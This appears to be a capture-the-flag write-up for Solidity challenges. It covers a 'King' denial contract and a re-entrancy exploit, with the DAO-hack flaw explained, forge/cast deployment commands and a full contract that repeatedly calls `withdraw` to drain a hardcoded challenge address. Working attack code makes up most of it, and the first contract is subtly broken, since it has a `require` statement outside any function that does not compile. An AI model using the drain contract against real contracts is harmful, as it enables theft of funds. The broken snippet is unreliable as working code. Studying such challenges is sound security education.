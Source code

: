 ```solidity
pragma solidity ^0.8.0;

contract AttackKing{
	require(msg.value >= 0.001 ether, "please send >= 0.001 ether");
	constructor(address payable _sendTo) public payable {
		_sendTo.call{value:msg.value}("");
	}
	receive() external payable {
		revert();
	}
}
```

****

# Re-entrancy

This is the same exploit that led to the famous [DAO hack](https://www.coindesk.com/learn/2016/06/25/understanding-the-dao-attack/). Due to sending funds before updating internal state, the malicious contract is able to keep calling the `withdraw` function via a malicious fallback/receive function. To fix the vulnerability, we could update the internal `balances` state before calling the ether transfer, ensuring safe re-entry into the `withdraw` function.

When `msg.sender.call{value:_amount}("")` is processed, the control is handed back to the `receive` function in our originating attacking contract, which keeps calling `withdraw` function until we empty the victim contract.
- Remember to make fallback function payable (or alternatively, use a payable `receive()` function)
- `forge create src/AttackReentrancy.sol:AttackReentrancy --verify`
- `cast send <challenge_addr> "attack()" --gas-limit 300000 --value 0.001ether`

```solidity
pragma solidity ^0.8.10;

interface IReentrance{
    function withdraw(uint _amount) external;
    function donate(address _to) external payable;
}

contract AttackReentrancy{    
    address contractAddress = 0xABF83aD603829851f6cc631D4bcCD084b0EAedb9;
    IReentrance public challengeContract = IReentrance(contractAddress);
    uint amount; 

    receive() external payable {
        drain();
    }
    function attack() external payable {
        amount=msg.value;
        challengeContract.donate{value:amount}(address(this));
        challengeContract.withdraw(amount);
    }
    function drain() private {
        uint remainingBalance = address(challengeContract).balance;
                                
        if(remainingBalance > 0) {
            uint toWithdraw = (remainingBalance > amount? amount:remainingBalance);
            challengeContract.withdraw(toWithdraw);
        }
    }
}
```
****
